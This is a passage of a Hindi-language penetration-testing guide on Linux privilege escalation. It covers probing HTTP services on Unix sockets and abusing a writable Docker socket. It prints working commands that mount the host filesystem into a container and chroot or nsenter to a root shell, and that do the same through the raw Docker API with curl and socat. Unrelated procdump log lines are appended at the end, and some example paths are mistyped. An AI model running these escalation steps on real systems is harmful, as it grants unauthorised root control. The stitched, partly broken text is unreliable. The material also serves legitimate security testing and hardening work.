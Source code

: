 ### HTTP सॉकेट्स

ध्यान दें कि कुछ **HTTP अनुरोधों के लिए सॉकेट्स सुन रहे हो सकते हैं** (_मैं .socket फ़ाइलों की बात नहीं कर रहा हूँ, बल्कि यूनिक्स सॉकेट के रूप में कार्य करने वाली फ़ाइलें_). आप इसे निम्नलिखित के साथ जांच सकते हैं:
```bash
curl --max-time 2 --unix-socket /pat/to/socket/files http:/index
```
यदि सॉकेट HTTP अनुरोध के साथ **प्रतिक्रिया करता है**, तो आप उसके साथ **संवाद कर सकते हैं** और शायद कुछ संकट का उपयोग कर सकते हैं।

### लिखने योग्य डॉकर सॉकेट

**डॉकर सॉकेट** आमतौर पर `/var/run/docker.sock` पर स्थित होता है और केवल `root` उपयोगकर्ता और `docker` समूह द्वारा लिखने योग्य होता है।
यदि किसी कारणवश **आपके पास उस सॉकेट पर लिखने की अनुमति है**, तो आप विशेषाधिकार को बढ़ा सकते हैं।
इस्तेमाल किए जा सकते हैं निम्नलिखित आदेश:
```bash
docker -H unix:///var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
docker -H unix:///var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
```
#### डॉकर वेब API का उपयोग डॉकर पैकेज के बिना सॉकेट से करें

यदि आपके पास **डॉकर सॉकेट** तक पहुंच है लेकिन आप डॉकर बाइनरी का उपयोग नहीं कर सकते हैं (शायद यह स्थापित भी नहीं है), तो आप `curl` के साथ सीधे वेब API का उपयोग कर सकते हैं।

निम्नलिखित कमांड एक उदाहरण हैं कि कैसे **डॉकर कंटेनर बनाएं जो होस्ट सिस्टम के रूट को माउंट करता है** और `socat` का उपयोग करके नए डॉकर में कमांडों को निष्पादित करें।
```bash
# List docker images
curl -XGET --unix-socket /var/run/docker.sock http://localhost/images/json
#[{"Containers":-1,"Created":1588544489,"Id":"sha256:<ImageID>",...}]
# Send JSON to docker API to create the container
curl -XPOST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock -d '{"Image":"<ImageID>","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"bind","Source":"/","Target":"/host_root"}]}' http://localhost/containers/create
#{"Id":"<NewContainerID>","Warnings":[]}
curl -XPOST --unix-socket /var/run/docker.sock http://localhost/containers/<NewContainerID>/start
```
अंतिम कदम है `socat` का उपयोग करके कंटेनर के साथ एक कनेक्शन आरंभ करना, "अटैच" अनुरोध भेजें।
```bash
socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/<NewContainerID>/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

#HTTP/1.1 101 UPGRADED
#Content-Type: application/vnd.docker.raw-stream
#Connection: Upgrade
#Upgrade: tcp
```
अब, आप इस `socat` कनेक्शन से कंटेनर पर कमांड्स चला सकते हैं।


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714